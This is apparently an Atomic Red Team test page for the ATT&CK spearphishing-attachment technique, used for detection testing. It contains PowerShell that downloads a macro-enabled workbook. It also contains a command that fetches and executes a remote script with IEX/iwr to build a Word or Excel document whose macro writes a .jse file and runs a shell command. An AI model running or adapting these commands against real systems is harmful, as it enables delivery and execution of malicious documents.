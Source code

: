 # T1566.001 - Phishing: Spearphishing Attachment

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1566/001)

<blockquote>Adversaries may send spearphishing emails with a malicious attachment in an attempt to gain access to victim systems. Spearphishing attachment is a specific variant of spearphishing. Spearphishing attachment is different from other forms of spearphishing in that it employs the use of malware attached to an email. All forms of spearphishing are electronically delivered social engineering targeted at a specific individual, company, or industry. In this scenario, adversaries attach a file to the spearphishing email and usually rely upon [User Execution](https://attack.mitre.org/techniques/T1204) to gain execution. Spearphishing may also involve social engineering techniques, such as posing as a trusted source.

There are many options for the attachment such as Microsoft Office documents, executables, PDFs, or archived files. Upon opening the attachment (and potentially clicking past protections), the adversary's payload exploits a vulnerability or directly executes on the user's system. The text of the spearphishing email usually tries to give a plausible reason why the file should be opened, and may explain how to bypass system protections in order to do so. The email may also contain instructions on how to decrypt an attachment, such as a zip file password, in order to evade email boundary defenses. Adversaries frequently manipulate file extensions and icons in order to make attached executables appear to be document files, or files exploiting one application appear to be a file for a different one. </blockquote>

## Atomic Tests

- [Atomic Test #1 - Download Macro-Enabled Phishing Attachment](#atomic-test-1---download-macro-enabled-phishing-attachment)

- [Atomic Test #2 - Word spawned a command shell and used an IP address in the command line](#atomic-test-2---word-spawned-a-command-shell-and-used-an-ip-address-in-the-command-line)

<br/>

## Atomic Test #1 - Download Macro-Enabled Phishing Attachment

This atomic test downloads a macro enabled document from the Atomic Red Team GitHub repository, simulating an end user clicking a phishing link to download the file.
The file "PhishingAttachment.xlsm" is downloaded to the %temp% directory.

**Supported Platforms:** Windows

**auto_generated_guid:** 114ccff9-ae6d-4547-9ead-4cd69f687306

#### Attack Commands: Run with `powershell`!

```powershell
$url = 'https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1566.001/bin/PhishingAttachment.xlsm'
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
Invoke-WebRequest -Uri $url -OutFile $env:TEMP\PhishingAttachment.xlsm
```

#### Cleanup Commands:

```powershell
Remove-Item $env:TEMP\PhishingAttachment.xlsm -ErrorAction Ignore
```

<br/>
<br/>

## Atomic Test #2 - Word spawned a command shell and used an IP address in the command line

Word spawning a command prompt then running a command with an IP address in the command line is an indicator of malicious activity.
Upon execution, CMD will be launched and ping 8.8.8.8.

**Supported Platforms:** Windows

**auto_generated_guid:** cbb6799a-425c-4f83-9194-5447a909d67f

#### Inputs:

| Name       | Description                                               | Type   | Default Value                       |
| ---------- | --------------------------------------------------------- | ------ | ----------------------------------- |
| jse_path   | Path for the macro to write out the "malicious" .jse file | string | C:&#92;Users&#92;Public&#92;art.jse |
| ms_product | Maldoc application Word or Excel                          | string | Word                                |

#### Attack Commands: Run with `powershell`!

```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing)
$macrocode = "   Open `"#{jse_path}`" For Output As #1`n   Write #1, `"WScript.Quit`"`n   Close #1`n   Shell`$ `"ping 8.8.8.8`"`n"
Invoke-MalDoc -macroCode $macrocode -officeProduct "#{ms_product}"
```

#### Cleanup Commands:

```powershell
Remove-Item #{jse_path} -ErrorAction Ignore
```

#### Dependencies: Run with `powershell`!

##### Description: Microsoft #{ms_product} must be installed

##### Check Prereq Commands:

```powershell
try {
  New-Object -COMObject "#{ms_product}.Application" | Out-Null
  $process = "#{ms_product}"; if ( $process -eq "Word") {$process = "winword"}
  Stop-Process -Name $process
  exit 0
} catch { exit 1 }
```

##### Get Prereq Commands:

```powershell
Write-Host "You will need to install Microsoft #{ms_product} manually to meet this requirement"
```

<br/>
